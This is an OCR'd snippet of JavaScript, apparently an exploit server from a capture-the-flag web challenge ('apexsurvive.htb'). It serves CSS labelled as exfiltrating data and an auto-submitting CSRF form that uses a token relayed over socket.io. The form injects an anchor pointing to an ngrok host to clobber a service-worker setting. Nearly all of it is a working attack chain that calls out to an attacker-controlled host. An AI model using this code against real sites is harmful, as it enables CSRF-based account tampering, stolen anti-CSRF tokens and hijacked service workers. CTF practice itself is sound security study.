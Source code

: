 ```js
    if (SHOW_RESULTS_IN_BROWSER) {
        css += htmlBeforeCSS('Exfiltrating...', false);
    }
    response.writeHead(200, { 'Content-Type': 'text/css' });
    response.write(css);
    response.end();
};

app.use('/submit', (request, response) => {
    console.log(request);
    response.writeHead(200, { 'Content-Type': 'text/html' });
    response.write('OK')
    response.end()
});


app.use('/', function (request, response) {
    let html = `
    
    <html>
    <body>
        <form action="https://127.0.0.1:1337/challenge/api/profile" method="POST">
            <input type="hidden" name="email" value="xclow3n@apexsurvive.htb" />
            <input type="hidden" name="fullName" value="fuck" />
            <input type="hidden" name="username" value="<a href='#' id='serviceWorkerHost'>https://f0af-2405-201-550b-ba5-3ca4-b505-692f-fdf0.ngrok-free.app</a>" />
            <input type="hidden" id="anticsrf" name="antiCSRFToken" value="" />
        </form>
    </body>
    </html>
    <script src="/socket.io/socket.io.js"></script>
    <script>
    var socket = io();

    let inputF = document.getElementById("anticsrf");

    socket.on('token', (msg) => {
        console.log(msg);
        inputF.value = msg.token;
        document.forms[0].submit();
    });

    </script>

    <script>
    window.open('https://127.0.0.1:1337/challenge/product/7', '_blank');
    </script>
    `;
    response.writeHead(200, { 'Content-Type': 'text/html' });
    response.write(html)
    response.end()
});




const server = http.createServer(app)
const { Server } = require("socket.io");
const io = new Server(server);

io.on('connection', (socket) => {
    console.log('a user connected');
});
```